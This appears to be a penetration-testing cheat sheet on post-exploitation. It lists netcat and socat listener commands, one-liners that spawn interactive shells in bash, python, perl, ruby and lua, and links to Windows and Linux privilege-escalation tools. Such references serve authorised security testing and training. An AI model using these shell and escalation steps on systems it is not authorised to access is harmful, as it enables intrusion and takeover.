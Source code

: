#post-exploitation
## Spawn a tty: 

1. rlwrap nc localhost 80

2. rlwrap -r -f . nc "IP ADDRESS" "PORT"

- socat file:`tty`,raw,echo=0 tcp-listen:12345
- /bin/sh -i
- /bin/bash -i
- python -c 'import pty; pty.spawn("/bin/sh")'
- perl -e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')

# Privilege Escalation Scripts:

## Windows:
- Windows Exploit Suggester (Next-Generation): https://github.com/bitsadmin/wesng
- Sherlock: https://github.com/rasta-mouse/Sherlock
- Powersploit: https://github.com/PowerShellMafia/PowerSploit
- WinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- PrivescCheck: https://github.com/itm4n/PrivescCheck 

## Linux:
- Linux Exploit Suggester 2: https://github.com/jondonas/linux-exploit-suggester-2
- LinEnum: https://github.com/rebootuser/LinEnum
- UnixPriv Checker: https://github.com/pentestmonkey/unix-privesc-check
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- Cadiclus: https://github.com/tjnull/pentest-arsenal/tree/main/Cadiclus

# Other Resources/Tools: 

## Windows: 
- LOLBAS: https://lolbas-project.github.io/#
- Windows Privilege Escalation Fundmentals: https://www.fuzzysecurity.com/tutorials/16.html
- Hacktricks: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
- SharpSuite: https://github.com/FuzzySecurity/Sharp-Suite
- PowerSharpPack:  https://github.com/S3cur3Th1sSh1t/PowerSharpPack 
- SharpCollection: https://github.com/Flangvik/SharpCollection
- Watson: https://github.com/rasta-mouse/Watson
- WinPwn: https://github.com/S3cur3Th1sSh1t/WinPwn


## Linux: 
- GTFOBins: https://gtfobins.github.io/
- g0tmi1k Linux Privilege Escalation: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- Hacktricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation